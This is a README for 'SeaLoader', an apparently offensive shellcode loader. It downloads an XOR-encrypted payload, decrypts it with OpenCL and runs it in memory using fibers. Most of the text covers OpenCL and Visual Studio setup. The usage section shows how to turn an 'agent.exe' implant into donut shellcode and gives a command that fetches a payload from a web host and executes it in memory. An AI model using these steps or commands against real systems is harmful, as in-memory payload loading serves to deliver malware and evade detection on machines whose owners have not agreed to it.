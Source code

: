 # SeaLoader
Shellcode loader that downloads and decrypts an XOR encrypted using OpenCL, then launches it with fibers. For a deeper dive, see the blog post here:

[https://p0142.github.io/posts/sealoader/](https://p0142.github.io/posts/sealoader/)

## General instructions for setting up a visual studio project to compile OpenCL
### 1. Install OpenCL SDK / Drivers

OpenCL is not part of Visual Studio itself. You need vendor-specific OpenCL runtime + headers.

* **NVIDIA GPU** → Install the [CUDA Toolkit](https://developer.nvidia.com/cuda-downloads). It includes `OpenCL.dll`, headers, and ICD loader.
* **AMD GPU** → Install the [AMD APP SDK](https://github.com/GPUOpen-LibrariesAndSDKs) (legacy) or ROCm / Windows drivers with OpenCL runtime.
* **Intel GPU / CPU** → Install [Intel OpenCL SDK](https://www.intel.com/content/www/us/en/developer/tools/opencl-sdk/overview.html).

Alternately if you're running this in a VM you can use POCL, which you can get here:

[POCL](https://portablecl.org/)

Grab the SDK here:

[OpenCL-SDK](https://github.com/KhronosGroup/OpenCL-SDK)

After installation, you should have:
* `OpenCL.lib` (import library)
* `OpenCL.dll` (runtime, usually in `C:\Windows\System32`)
* `CL/cl.h` and `CL/opencl.hpp` (headers for C and C++)

---

### 2. Set Up Visual Studio Project
1. Open **Visual Studio** → **Create a new Project** → choose **Console App (C++).**
2. Right-click your project → **Properties**.

#### Include directories
* Go to **C/C++ → General → Additional Include Directories**
* Add the path to OpenCL headers, e.g.:
  ```
  C:\Program Files (x86)\Intel\OpenCL SDK\include
  ```

  or
  ```
  C:\Program Files\NVIDIA GPU Computing Toolkit\CUDA\v12.x\include
  ```

#### Library directories
* Go to **Linker → General → Additional Library Directories**
* Add path to libraries, e.g.:
  ```
  C:\Program Files (x86)\Intel\OpenCL SDK\lib\x64
  ```

#### Link against OpenCL
* Go to **Linker → Input → Additional Dependencies**
* Add:
  ```
  OpenCL.lib
  ```

From here you should be able to compile the program.

#### Donuts
The donut generator python script requires donut shellcode: https://github.com/TheWover/donut
```
pip install donut-shellcode
```
The loader should work with any shellcode though, not only donut.

# Usage:
Create your payload:
```
python donutGenerator.py -i agent.exe -x "HelloWorld"
```
Host the file on a web server and use the loader to download into memory and execute
```
.\SeaLoader.exe /p:http://example.com/payload.bin /x:HelloWorld
```


